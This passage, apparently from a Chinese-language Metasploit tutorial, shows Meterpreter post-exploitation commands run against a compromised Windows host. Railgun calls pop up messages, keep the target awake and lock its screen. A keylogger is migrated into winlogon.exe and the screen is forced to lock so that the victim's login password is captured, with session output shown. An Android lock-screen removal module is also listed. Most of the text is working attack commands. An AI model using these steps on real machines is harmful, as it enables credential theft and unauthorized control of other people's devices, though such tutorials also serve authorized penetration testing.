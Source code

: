 ```shell
# 调用消息框函数MessageBoxA弹出信息
>> client.railgun.user32.MessageBoxA(0, "Hello World", "Osanda", "MB_ICONASTERISK | MB_OK" )
# 防止目标主机在meterpreter会话期间进入睡眠状态
>> client.railgun.kernel32.SetThreadExecutionState("ES_CONTINUOUS|ES_SYSTEM_REQUIRED")
# 让目标系统锁屏
>> client.railgun.user32.LockWorkStation()
```

### 键盘记录结合锁屏

原理是先后台开启键盘记录，然后强制锁屏，用户输入密码登录得到用户输入内容。

```shell
# 后台运行键盘记录，每15秒dump到记录文件中
meterpreter > bgrun keylogrecorder -c 1 -t 15
[*] Executed Meterpreter with Job ID 0
meterpreter > [*] winlogon.exe Process found, migrating into 640
[*] Migration Successful!!
[*] Starting the keystroke sniffer...
[*] Keystrokes being saved in to /root/.msf3/logs/scripts/keylogrecorder/192.168.92.122_20100707.4539.txt
[*] Recording

# 调用目标系统锁屏函数
meterpreter > irb
[*] Starting IRB shell
[*] The 'client' variable holds the meterpreter client

client.core.use("railgun")
=> true
client.railgun.user32.LockWorkStation()
=> {"GetLastError"=>0, "return"=>true}
exit

meterpreter >
meterpreter > bglist
[*] Job 0: ["keylogrecorder", "-c", "1", "-t", "15"]
meterpreter > bgkill 0
[*] Killing background job 0...
meterpreter >
```

更多的windows函数请自行参考msdn自由发挥，查找本地**railgun**函数，在终端中输入`locate railgun`即可。

## 安卓中的特殊功能

### 移除目标锁屏

```shell
post/android/manage/remove_lock
```
